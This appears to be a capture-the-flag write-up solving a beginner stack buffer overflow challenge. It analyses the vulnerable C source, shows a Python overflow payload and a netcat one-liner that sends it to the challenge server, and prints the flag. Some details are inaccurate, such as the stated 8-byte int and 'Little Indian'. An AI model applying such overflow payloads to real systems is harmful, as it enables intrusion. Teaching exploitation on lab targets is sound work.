 This is the first chanllenge in the pwnables category:

The challenge is asking you to connect to `nc pwnable.hackable.ca 9993` that runs an executable that asks you to `Enter your name`, and based on your answer it should give you the correct flag.

The sourcecode of the executable is given in the challenge, (buffer_overflow1.c)


# Solution

1. Analyzing code
2. Compiling the code
3. Crafting our buffer overflow input

## 1. Analyzing code
Looking at the sourcecode we notice that this is an easy buffer overflow example.

1. It creates an integer variable `password` and saves in it the hex value `0xcafebabe`. It also creates a string variable `your_name` of size 100. 

```
int password = 0xcafebabe;
char your_name[100] = {0};
```
2. It prints `Enter your name` and reads the input into the variable `your_name`
```
printf("Enter your name\n");
fflush(stdout);
read(0, your_name, 0x100);
```
3. Then it compares the variable `password` to the value `0xdeadbeef` and if correct it will print the FLAG if not it asks to try again and exits.
```
if(password == 0xdeadbeef) {
    puts("GOOD WORK!\n");
    puts("FLAG{**********************}");
}
else {
    puts("Nice try :( Your name didn't meet my expectations\n");
}
```

>if we make some research about the `read` function in C we find that read() don't work with strings, but with buffers, and as such it doesn't need to know their contents, just their size. As long as it only uses the buffer, there won't be any overrun problems. The problem may come if you later treat that buffer as a string. In that case, you will most probably overrun it.


we also notice that in the `read` function it reads `0x100` bytes which is `256` bytes, however the variable `your_name` is only 100 bytes long. This means that the `read` function can lead to a buffer overflow vulnerability.

## 2. Compiling the code
`gcc buffer_overflow1.c -o buffer_overflow1.exe -fno-stack-protector -z execstack -no-pie`

we use `-fno-stack-protector -z execstack -no-pie` to ensure no stack protection is running so our exploit can run.

## 3. crafting our buffer overflow input
To solve this challenge we need to change the value of the password variable to `0xdeadbeef` to do this we need to use the `read` function to overwrite the stack space of the variable `password`.

The stack has the variable `password` with length 8 bytes on top of it (remember: stack addresses are flipped) the `your_name` variable with length of 100 bytes. So we need to enter 100 bytes then our new password value of `0xdeadbeef`.

```
+++++++++++++++++++++++++++++++++
+           +                   +
+           +                   +
+    100    +    your_name      +
+   bytes   +                   +
+           +                   +
+           +                   +
+++++++++++++++++++++++++++++++++
+    8      +    password       +
+   bytes   +                   +
+++++++++++++++++++++++++++++++++
```

>Note that: the variable `passowrd` is in hex and we read it in Little Indian from right to left.


To craft our malformed input, we use python as follows:
```
print('A'*100+'\xef\xbe\xad\xde')
>>AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
```
>Note: To not get confused with the hex to ASCII conversion, we can just enter the hex value as `\xXX` to python and it will automatically make the conversion for us. The special chars at the end of the crafted string represent the hex value `0xdeadbeef`

By entering this value into the program, it gives the FLAG.

# One line command:
`python -c "print('A'*100+'\xef\xbe\xad\xde')" | nc pwnable.hackable.ca 9993`

#FLAG:
```FLAG{0v3rfl0w5_ar3_fun}```
